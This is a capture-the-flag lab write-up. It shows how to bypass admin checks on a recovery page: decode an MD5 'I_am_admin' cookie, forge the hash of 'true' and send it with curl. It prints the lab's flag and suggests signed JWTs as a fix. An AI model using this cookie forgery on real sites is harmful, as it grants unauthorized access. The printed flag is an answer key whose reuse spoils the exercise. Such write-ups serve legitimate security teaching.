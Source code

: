 In the http://192.168.1.32/?page=recover page, there is a HTML form described as follow:
<form action="#" method="POST">
  <input type="hidden" name="mail" value="webmaster@borntosec.com" maxlength="15">
  <input type="submit" name="Submit" value= "Submit">
</form>

Step 1: Understanding the Form Submission
The /recover page sends a POST request with the following form data:
mail: webmaster@borntosec.com
Submit: Submit

And the request has a cookie:
I_am_admin=68934a3e9455fa72420237eb05902327

Step 2: Analyze the Cookie
The cookie I_am_admin=68934a3e9455fa72420237eb05902327 appears to be a hash. Let's decode the hash to understand its content.

Step 3: Decode the Hash
The given hash 68934a3e9455fa72420237eb05902327 is an MD5 hash. Using an MD5 decryption tool or an online database like hashes.com, we can decode this hash.

Let's decode it using https://md5decrypt.net/
68934a3e9455fa72420237eb05902327: false
It seems that the hash corresponds to the string false. This indicates that the current cookie value implies the user is not an admin.

Step 4: Modify the Cookie
Since false is the value indicating non-admin status, let's try changing it to true.
Generate the MD5 hash for true: b326b5062b2f0e69046810717534cb09

Step 5: Send the POST Request
Use a tool like curl or Postman to send the POST request with the modified cookie.
curl -X POST http://192.168.1.32/?page=recover \
  -H "Cookie: I_am_admin=b326b5062b2f0e69046810717534cb09"

Step 7: Analyze the Response
After sending the POST request with the modified cookie, the response contain an altert that displays the flag:
<script>alert('Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3');</script>

A way to fix this vulnerability would be to use JWT (with a strong secret) instead of a handmade "I_am_admin" cookie.